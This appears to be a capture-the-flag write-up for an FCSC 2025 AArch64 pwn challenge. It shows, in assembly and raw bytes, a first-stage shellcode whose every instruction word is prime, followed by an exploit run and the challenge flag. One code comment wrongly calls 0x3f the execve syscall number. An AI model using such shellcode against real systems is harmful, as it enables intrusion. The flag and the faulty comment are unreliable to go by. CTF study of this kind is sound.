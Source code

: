 ```yaml
---
author: micronoyau
layout: post
date: 2025-04-27 22:00:00 +0200
tags: pwn fcsc shellcode
title: "Small primes shellcode"
excerpt_separator: <!--more-->
---
```


This challenge is the fifth most solved pwn challenge at the 2025 edition of the FCSC. The only provided resources are an address and port and the copy of the binary to exploit.

## Playing with the service

```
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
hello, world
Instruction #0 [opcode = 0x6c6c6568] is not prime.
^C
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
abcd
Instruction #0 [opcode = 0x64636261] is not prime.
^C
```

It seems that the program expects the first dword to be a prime number.

## Binary analysis

First, let's notice than as opposed to the previous challenges, the provided binary is for target `aarch64`.

```
➜  05-small-primes-shellcode readelf -h small-primes-shellcode 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x800
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68872 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         29
  Section header string table index: 28
```

The binary has a single, small, main function. First, it allocates `0x400` bytes of memory with `RWX` protections.

![](assets/fcsc/2025/pwn/small-primes-shellcode/00-block-0.png)

Then, it reads `0x400` bytes from user input to the allocated memory area.

![](assets/fcsc/2025/pwn/small-primes-shellcode/01-block-1.png)

Finally, the program loops over every dword (4 bytes) of the input padded with zeros, and aborts if one of these dwords is not prime. Else, all registers are cleared and the given user input is executed.

![](assets/fcsc/2025/pwn/small-primes-shellcode/02-block-2.png)

### tl;dr

We need to provide an ARM shellcode where every dword is a prime number.

## Solving

To solve this challenge, I wrote a small Rust program to check if the shellcodes I built were respecting this condition. As for the `bigorneau` challenge, my strategy was split in two stages: a first (restricted) stage shellcode to read a second stage shellcode (most likely, as always, `execve("/bin/sh", NULL, NULL)` with NOP padding).

### First stage shellcode

With the help of this little tool, I proceeded to fiddle around to find the optimal sequence of instructions. The first stage needs to read from stdin to the `mmap`ed region to overwrite the currently executed instructions.

Simply put, this first-stage shellcode should look something like
```
mov x8, 0x3f            // 0x3f = execve syscall number for aarch64-linux
mov x0, 0               // stdin
ldr x1, [sp, 0x20]      // (mmaped region address is at [sp + 0x30 - 0x10])
mov x2, <big value>     // Number of bytes to read
svc <dontcare>          // Usually svc 0, but the immediate value is usually ignored
```

However, this shellcode is absolutely not meeting the requirements. Running the tool yields

```
Shellcode = [e8, 07, 80, d2, 00, 00, 80, d2, e1, 13, 40, f9, 02, 40, 80, d2, 01, 00, 00, d4] = \xe8\x07\x80\xd2\x00\x00\x80\xd2\xe1\x13\x40\xf9\x02\x40\x80\xd2\x01\x00\x00\xd4

Instructions: 
d28007e8 - [e8, 07, 80, d2] - 0x1000: mov x8, #0x3f - NOT PRIME
d2800000 - [00, 00, 80, d2] - 0x1004: mov x0, #0 - NOT PRIME
f94013e1 - [e1, 13, 40, f9] - 0x1008: ldr x1, [sp, #0x20] - NOT PRIME
d2804002 - [02, 40, 80, d2] - 0x100c: mov x2, #0x200 - NOT PRIME
d4000001 - [01, 00, 00, d4] - 0x1010: svc #0 - NOT PRIME
```

As can be seen, instructions like `mov x2, <something>` will never work because ARM instructions are 4-byte aligned and the target registers is stored in the least significant bits, which means the instruction will always be even.

To bypass this limitation, I made heavy use of the `ldp` and  `stp` ARM instructions. These instructions allow to load/store pairs of registers. By never setting the first of this pair of registers to an even one, we can achieve our goal.

After a few random tries, I finally came up with the following shellcode:

```
// Nasty trick to do a "mov x8, 0x3f"
mov x5, 0x3f
stp x5, x2, [sp]
ldp x11, x8, [sp, -0x8]

// Nasty trick to do a "ldr x1, [sp, 0x20]" (buf is at [sp + 0x30 - 0x10])
ldr x13, [sp, 0x20]
stp x13, x6, [sp]
ldp x1, x9, [sp]

// Nasty trick to do a "mov x2, 0x202"
mov x3, 0x202
stp x3, x2, [sp]
ldp x23, x2, [sp, -0x8]

// Nasty trick to do a "mov x0, xzr"
stp xzr, x10, [sp]
ldp x7, x0, [sp, -0x8]

// Put 0x13 to have a prime number (immediate is ignored)
svc 0x13
```

Running it with the tool yields
```
Shellcode = [e5, 07, 80, d2, e5, 0b, 00, a9, eb, a3, 7f, a9, ed, 13, 40, f9, ed, 1b, 00, a9, e1, 27, 40, a9, 43, 40, 80, d2, e3, 0b, 00, a9, f7, 8b, 7f, a9, ff, 2b, 00, a9, e7, 83, 7f, a9, 61, 02, 00, d4] = \xe5\x07\x80\xd2\xe5\x0b\x00\xa9\xeb\xa3\x7f\xa9\xed\x13\x40\xf9\xed\x1b\x00\xa9\xe1\x27\x40\xa9\x43\x40\x80\xd2\xe3\x0b\x00\xa9\xf7\x8b\x7f\xa9\xff\x2b\x00\xa9\xe7\x83\x7f\xa9\x61\x02\x00\xd4

Instructions: 
d28007e5 - [e5, 07, 80, d2] - 0x1000: mov x5, #0x3f - PRIME
a9000be5 - [e5, 0b, 00, a9] - 0x1004: stp x5, x2, [sp] - PRIME
a97fa3eb - [eb, a3, 7f, a9] - 0x1008: ldp x11, x8, [sp, #-8] - PRIME
f94013ed - [ed, 13, 40, f9] - 0x100c: ldr x13, [sp, #0x20] - PRIME
a9001bed - [ed, 1b, 00, a9] - 0x1010: stp x13, x6, [sp] - PRIME
a94027e1 - [e1, 27, 40, a9] - 0x1014: ldp x1, x9, [sp] - PRIME
d2804043 - [43, 40, 80, d2] - 0x1018: mov x3, #0x202 - PRIME
a9000be3 - [e3, 0b, 00, a9] - 0x101c: stp x3, x2, [sp] - PRIME
a97f8bf7 - [f7, 8b, 7f, a9] - 0x1020: ldp x23, x2, [sp, #-8] - PRIME
a9002bff - [ff, 2b, 00, a9] - 0x1024: stp xzr, x10, [sp] - PRIME
a97f83e7 - [e7, 83, 7f, a9] - 0x1028: ldp x7, x0, [sp, #-8] - PRIME
d4000261 - [61, 02, 00, d4] - 0x102c: svc #0x13 - PRIME
```

## Result

Let's run the orchestrating script

```
➜  05-small-primes-shellcode python expl.py 
[+] Opening connection to chall.fcsc.fr on port 2101: Done
[*] Switching to interactive mode
$ ls
flag.txt
small-primes-shellcode
$ cat flag.txt
FCSC{90d9b12e9ac63770408a90f8cec117b317356f5b40b238cffeeccc9e41eb88dd}
```
